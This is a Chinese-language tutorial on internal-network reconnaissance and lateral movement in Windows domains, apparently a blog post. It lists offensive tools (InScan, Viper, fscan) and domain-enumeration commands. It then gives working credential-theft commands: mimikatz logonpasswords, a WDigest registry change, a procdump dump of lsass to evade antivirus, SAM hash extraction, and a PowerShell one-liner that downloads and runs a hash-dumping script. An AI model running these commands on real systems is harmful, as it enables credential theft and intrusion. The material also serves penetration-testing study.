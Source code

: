 常用方法

InScan

可使用InScan进行目录扫描、爆破、字典生成，指纹识别等等，工具很不错但是可能存在后门如果有重要的东西还是不要用的好
地址：https://github.com/inbug-team/InScan

Viper

Viper，集成杀软绕过,内网隧道,文件管理,命令行等基础功能.并且有自带的msf不过好像是阉割过的，Viper自带了许多模块，他不光可以进行探测扫描也是一个不错的c2
地址：https://github.com/FunnyWolf/Viper

fscan

fscan，可直接主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、web漏洞扫描、netbios探测、域控识别等功能。是横向移动的好利器
地址：https://github.com/shadow1ng/fscan

信息收集

信息收集可以先本机信息收集包含查询进程，查看安装的软件，查看端口列表，查询补丁列表，查询本机共享，查询防火墙配置，查询当前权限。然后在进行域内信息收集包含反向域控查ip，域内存货主机探测（工具nbtscan），利用icmp，arp，tcp，udp协议探测内网，域内端口扫描（nmap），域控制器查找，然后定位域管理员，通过日志和会话和netsess.exe工具，收集域控制器列表和管理员列表等等

判断是否有域

    ipconfig /all 查询本地网络信息
    systeminfo 查询本机信息
    net config workstation 查询当前登录域
    net time /domain 利用域查询当前时间，三种回显判断当前环境
    存在域，当前用户不是域用户
    存在域，当前用户是域用户
    不存在域

注：一般域控跟dns服务器在一台主机所以解析一下dns服务器的域名
Default
nslookup xxx.xxx.xxx
systeminfo

在域显示的信息中如果回显WORKGROUP,那说明这台主机不在域内,在登录域 显示的是当前登录用户是域用户还是普通用户

域内存活主机探测

    利用netbios快速探测内网
    尽量使用nbtscan.exe IP
    windows server 08/windows7以上系统尽量运行ps脚本，来探测
    netbios是网络共享协议，利用betbios协议来探测逃避ips，ids，杀软等探测设备
    arp扫描探测内网
    icmp探测内网
    scanline工具扫描 tcp/udp

域内端口扫描

    端口的banner信息
    端口上运行的服务
    常见应用的默认端口 躲避ids
    使用telnet来探测主机开放端口

横向移动之凭证窃取

域内横向移动技巧

利用NTLM、Kerberos及SMB等协议
攻击者进入内网后会进行横向移动建立多个立足点，常见的技巧包括凭证窃取、横向移动、Pass The Hash（hash传递）、导出域成员Hash、黄金白银票据、MS14-068等

1. 凭证窃取

窃取凭据来帮助在域内横向移动，一旦获取的密码在内网中是通用的，将会方便横向移动获取目标权限。

2. Mimikatz

Mimikatz一款windows平台下的神器，它具备很多功能，其中最亮眼的功能是直接从 lsass.exe 进程里获取windows处于active状态账号的明文密码。
读取明文密码原理：
Default
在 Windows 中，当用户登录时，lsass.exe 使用一个可逆的算法加密明文，并会将密文保存在内存中，Mimikatz就是通过抓取内存去还原明文。
项目地址：https://github.com/gentilkiwi/mimikatz
用法：
Default
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" "exit"

当目标为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码，但可以通过修改注册表的方式抓取明文
Default
cmd修改注册表命令：
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

重启或用户重新登录后可以成功抓取

3. Procdump

Procdump是微软官方发布的一款调试工具，因此不会被各种杀毒软件查杀。通常使用procdump转储内存文件到本地再使用mimikatz抓取文件中的hash来躲避杀软检测。

下载地址：https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump
Default
使用procdump将目标的lsass.exe转储成dmp文件
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
 
使用mimikatz从转储的lsass.dmp中来读取明文密码（从lsass.dmp处打开powershell）
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full"

4. Getpass

Getapss是由闪电小子根据mimikatz编译的一个工具，可以直接获取明文密码，直接运行Getpass.exe即可

5. Powershell脚本抓取

当目标系统存在powershell时，可直接一句powershell代码调用抓取，前提是目标可出外网，否则需要将ps1脚本放置内网之中。执行:
Default
powershell IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1’);Get-PassHashes

6. Sam破解

使用注册表来离线导出Hash
导出后可以使用mimikatz加载sam.hiv和sam.hiv来导出Hash。或者使用impacket 套件中secretsdump.py 脚本去解密，也是可以的
Default
python secretsdump.py -sam sam.hiv -security security.hiv -system system.hiv LOCAL

设我们用上面的fscan扫描全网段的同时我们可以利用工具”mimikatz“抓取用户密码，然后去看看浏览器历史记录，windows主机，远程登陆记录，浏览器记录，回收站记录，smb连接记录，文件共享记录，看看有没有什么内网web端，看看浏览器记住的密码，在内网一般摄像头，shiro，Redis，MSSQL的XP_CMDSHELL等等漏洞都可以是切入点，ftp，ssh，windows各种密码碰撞弱口令比较多，甚至有些平台的oa等重要系统都可以用Nday/1day打下来，如果拿下来了上个马啥的不也很爽,收集下密码特征和姓名年龄手机号等等信息可以制作一份字典进行爆破，成功率也很不错

当fscan扫描完后我们查看是否有弱口令，没有就继续，看看ms17-010，CVE2019-0708，永恒之黑漏洞是否存在，存在就干，移动多台机器重复信息收集步骤直到出现有用信息，当然如果目标是域控等那我们就尽量把自己的段子往目标段靠拢循循渐进下知道拿下目标

注意进入内网所涉及到的提权和权限维持是不可或缺的，这次先说这些，在提权上例如组策略首选项提权，uac提权，计划任务提权，烂土豆提权，无凭证条件下的权限获取等知识点